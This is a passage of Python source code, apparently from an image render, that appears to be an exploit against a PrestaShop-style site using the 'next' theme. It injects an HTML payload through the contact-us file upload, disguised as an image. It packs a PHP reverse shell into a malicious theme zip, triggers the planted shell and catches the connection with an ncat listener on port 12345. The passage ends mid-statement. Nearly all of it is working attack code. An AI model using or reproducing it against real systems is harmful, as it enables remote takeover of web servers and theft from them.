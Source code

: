 ```python

    if host_url[-1] == '/':
        host_url = host_url[:-1]

    html_content = html_content.replace("BASE_URL", f'"{host_url}"')
    html_content = html_content.replace("ATTACKER_IP", f'"{local_ip}"')
    html_content = html_content.replace("ATTACKER_PORT", "5000")
    html_content = html_content.replace("ADMIN_PATH", f'"{admin_path}"')
    html_content = html_content.replace("FILE_NAME", '"ps_next_8_theme_malicious.zip"')

    with open('./reverse_shell_template.php', 'r') as file:
        reverse_shell_content = file.read()
    
    reverse_shell_content = reverse_shell_content.replace("ATTACKER_IP", f'"{local_ip}"')
    reverse_shell_content = reverse_shell_content.replace("ATTACKER_PORT", "12345")

    with open('./reverse_shell.php', 'w') as file:
        file.write(reverse_shell_content)
    
    shutil.copy('ps_next_8_theme_malicious_old.zip', 'ps_next_8_theme_malicious.zip')
    with zipfile.ZipFile('ps_next_8_theme_malicious.zip', 'a') as zipf:
        zipf.write('reverse_shell.php','reverse_shell_new.php')



    url = f"{host_url}/contact-us"

    response = requests.get(url)
    response.raise_for_status()

    soup = BeautifulSoup(response.text, 'html.parser')
    token = soup.find('input', {'name': 'token'})['value']
    cookies = response.cookies

    files = {
        'fileUpload': ('test.png', html_content, 'image/png'),
    }

    data = {
        'id_contact': '2',
        'from': email,
        'message': 'pwned',
        'url': '',
        'token': token,
        'submitMessage': 'Send'
    }

    response = requests.post(url, files=files, data=data, cookies=cookies)
    url = f"{host_url}/themes/next/reverse_shell_new.php"

    req_thread = threading.Thread(target=send_get_requests, args=(url, 15,))
    req_thread.daemon = True
    req_thread.start()
    
    server_thread = threading.Thread(target=run_http_server)
    server_thread.daemon = True
    server_thread.start()

    if response.status_code == 200:
        print(f"[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.")
        
        output = subprocess.call(["ncat", "-lnvp", "12345"], shell=False)
        if b"Ncat: Connection from " in output:
```
